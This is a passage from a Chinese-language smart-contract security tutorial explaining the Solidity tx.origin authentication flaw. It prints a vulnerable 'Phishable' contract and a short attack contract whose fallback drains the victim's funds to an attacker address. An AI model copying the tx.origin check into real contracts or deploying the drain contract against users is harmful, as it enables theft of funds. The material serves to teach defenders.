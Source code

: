在这里，我们刚刚创建了一个新变量， ` depositedEther `，它跟踪已知的 Ether 存储量，并且这也是我们执行需求和测试时用到的变量。请注意，我们不再参考 ` this.balance `。

### Tx.Origin身份验证
#### 漏洞描述

Solidity具有一个全局变量，tx.origin它遍历整个调用栈并返回最初发送调用（或事务）的帐户的地址。在智能合约中使用此变量进行身份验证会使合约容易受到类似网络钓鱼的攻击。
有关进一步阅读，请参阅Stack Exchange Question，Peter Venesses博客和Solidity - Tx.Origin攻击。

#### 漏洞危害


授权用户使用该tx.origin变量的合约通常容易受到网络钓鱼攻击的攻击，这可能会诱使用户对易受攻击的合约执行身份验证操作。

#### 产生原理

考虑简单的合约，

```solidity
contract Phishable {
    address public owner;
    
    constructor (address _owner) {
        owner = _owner; 
    }
    
    function () public payable {} // collect ether

    function withdrawAll(address _recipient) public {
        require(tx.origin == owner);
        _recipient.transfer(this.balance); 
    }
}
```

请注意，在[11]行中，此合约授权withdrawAll()使用该功能tx.origin。该合约允许攻击者创建表单的攻击合约，

```solidity
import "Phishable.sol";

contract AttackContract { 
    
    Phishable phishableContract; 
    address attacker; // The attackers address to receive funds.

    constructor (Phishable _phishableContract, address _attackerAddress) { 
        phishableContract = _phishableContract; 
        attacker = _attackerAddress;
    }
    
    function () { 
        phishableContract.withdrawAll(attacker); 
    }
}
```
